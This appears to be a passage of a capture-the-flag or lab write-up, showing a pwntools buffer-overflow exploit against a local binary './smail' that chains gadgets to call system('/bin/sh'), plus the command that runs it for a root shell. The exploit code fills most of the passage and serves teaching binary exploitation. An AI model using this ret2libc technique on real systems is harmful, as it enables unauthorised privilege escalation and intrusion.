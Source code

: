     ```py
    from pwn import *

    p = process('./smail')

    libc_base = 0x00007ffff79e2000
    system = libc_base + 0x4f550
    binsh = libc_base + 0x1b3e1a

    POP_RDI = 0x4007f3

    payload = b'A' * 72
    payload += p64(0x400556)
    # this was not given in example, but found from another writeup
    # without including return address exploit does not work
    payload += p64(POP_RDI)
    payload += p64(binsh)
    payload += p64(system)
    payload += p64(0x0)

    p.clean()
    p.sendline("2")
    p.clean()
    p.sendline(payload)
    p.interactive()
    ```
  
  * We can run the exploit - it takes some time as ```pwntools``` check for latest versions in the beginning - but then we get root shell:

    ```sh
    python3 exploit.py
    ```

